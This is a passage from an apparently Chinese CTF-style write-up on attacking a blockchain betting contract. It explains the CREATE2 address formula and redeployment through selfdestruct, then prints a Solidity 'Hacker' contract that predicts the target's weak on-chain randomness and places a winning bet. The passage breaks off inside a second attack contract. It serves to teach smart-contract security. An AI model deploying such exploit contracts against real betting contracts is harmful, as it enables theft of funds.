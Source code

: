 其中`nonce`的值写在区块链中，需要通过`getStorageAt`方法获取。

### Create2

CREATE2 操作码，它允许我们提前计算出要部署的合约地址，地址计算公式如下：
``` solidity
keccak256 (0xff ++ address ++ salt ++ keccak256 (init_code)) [12:]
```
说明：

● address— 调用CREATE2的智能合约的地址

● salt— 随机数

● init_code— 要部署合约的字节码

可以在合约**构造函数constructor**中完成我们想要进行的操作，然后调用selfdestruct（）。与常见错误认识相反，其实你可以使用CREATE2操作码在同一地址多次部署智能合约。这是因为CREATE2检查目标地址的 nonce 是否为零（它会在构造函数的开头将其设置为1）。在这种情况下，selfdestruct（）函数每次都会重置地址的 nonce。因此，如果再次使用相同的参数调用CREATE2创建合约，对nonce的检查是可以通过的。

### 代码
**攻击合约**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./bet.sol";

contract Hacker {
    constructor(address target, uint256 mod) public {
        BigHacker b = BigHacker(msg.sender);
        uint256 nonce = b.nonce();
        uint256 value = 0;
        BetToken t = BetToken(target);
        if (t.balances(address(this)) == 0) {
            t.airdrop();
        }
        value = Hack(nonce, mod);
        t.bet(value, mod);
    }

    function Hack(uint256 nonce, uint256 mod) public view returns (uint256) {
        uint256 rand = uint256(
            keccak256(
                abi.encodePacked(
                    nonce,
                    block.timestamp,
                    block.difficulty,
                    address(this)
                )
            )
        ) % mod;
        return rand;
    }

    function die() public {
        selfdestruct(payable(address(0)));
    }
}


contract BigHacker {
    
    Hacker hk;
    address public a;
    event log_address(address);
```
